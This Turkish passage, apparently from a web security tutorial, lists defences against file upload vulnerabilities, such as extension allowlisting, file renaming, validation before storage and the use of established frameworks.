Kullanıcıların dosya yüklemesi sıradan bir şey ve doğru önlemler aldığın sürece tehlikeli olmak zorunda değil. Genel olarak, web siteni bu zafiyetlerden korumanın en etkili yolu aşağıdakileri uygulamaktır:

* Yüklenmek istenen tehlikeli dosya uzantılarını engellicem diye blacklist kullanmaktansa güvendiğin dosya uzantılarını içeren bir whitelist oluştur ve bu uzantıları bu şekilde kontrol et. Saldırganın deneyebileceği farklı dosya uzantılarını tahmin etmektense yüklenmesini tahmin edebileceğin dosya uzantılarını kabul eden bir kod yazmak çok daha kolay.

* Dosya adının herhangi bir alt dize () içermediğinden emin ol. Bu kontrolü yaparken tekrarlı bir şekilde döngü kullanarak yap. Çünkü birden fazla bu alt dize kullanılmış olabilir veya aldatmacalar olabilir. 

* Mevcut dosyaların üzerine yazılmasına neden olabilecek çakışmaları önlemek için yüklenen dosyaları yeniden adlandırın

* Tamamen doğrulama işlemi yapana kadar dosyaları sunucunun kalıcı dosya sistemine yüklemeyin

* Kendi doğrulama mekanizmanı yazmaktansa , dosya yüklemelerini önceden işlemek için yerleşik, bilindik bir framework kullanın. Bu frameworkler güvenlik testlerinden geçtiği için daha güvenlidir.

